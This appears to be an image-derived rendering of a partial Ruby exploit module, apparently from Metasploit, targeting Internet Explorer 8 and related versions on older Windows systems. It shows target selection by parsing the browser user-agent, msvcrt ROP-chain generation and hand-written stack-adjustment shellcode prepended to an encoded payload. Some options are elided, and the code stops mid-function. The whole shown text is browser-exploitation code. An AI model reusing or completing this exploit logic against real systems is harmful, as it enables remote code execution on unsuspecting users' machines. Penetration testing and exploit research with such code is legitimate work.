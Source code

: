 ```Ruby
          'DisableNops'    => true
        },
      'DefaultOptions'  => {...},
      'Platform'       => 'win',
      'Targets'        => [...],
      'Privileged'     => false,
      'DisclosureDate' => '2013-05-03',
      'DefaultTarget'  => 0))

    register_options([...])
  end

  def get_target(agent)
    return target if target.name != 'Automatic'

    nt = agent.scan(/Windows NT (\d\.\d)/).flatten[0] || ''
    ie = agent.scan(/MSIE (\d)/).flatten[0] || ''

    ie_name = "IE #{ie}"

    case nt
    when '5.1'
      os_name = 'Windows XP SP3'
    when '5.2'
      os_name = 'Windows Server 2003'
    when '6.0'
      os_name = 'Windows Vista'
    when '6.1'
      os_name = 'Windows 7'
    else
      # OS not supported
      return nil
    end

    targets.each do |t|
      if (!ie.empty? and t.name.include?(ie_name)) and (!nt.empty? and t.name.include?(os_name))
        print_status("Target selected as: #{t.name}")
        return t
      end
    end

    return nil
  end

  def get_payload(t, cli)
    rop_payload = ''

    # Extra junk in the end to make sure post code execution is stable.
    p = payload.encoded

    case t['Rop']
    when :msvcrt
      align = "\x81\xc4\x54\xf2\xff\xff" # Stack adjustment # add esp, -3500
      rop_payload = ''
      if t.name == 'IE 8 on Windows XP SP3'
        rop_payload = generate_rop_payload('msvcrt', align+p, {'target'=>'xp'})
      elsif t.name == 'IE 8 on Windows Server 2003'
        rop_payload = generate_rop_payload('msvcrt', align+p, {'target'=>'2003'})
      end

    else
      code  = "\x81\xEC\xF0\xD8\xFF\xFF" # sub esp, -10000
      code << p
```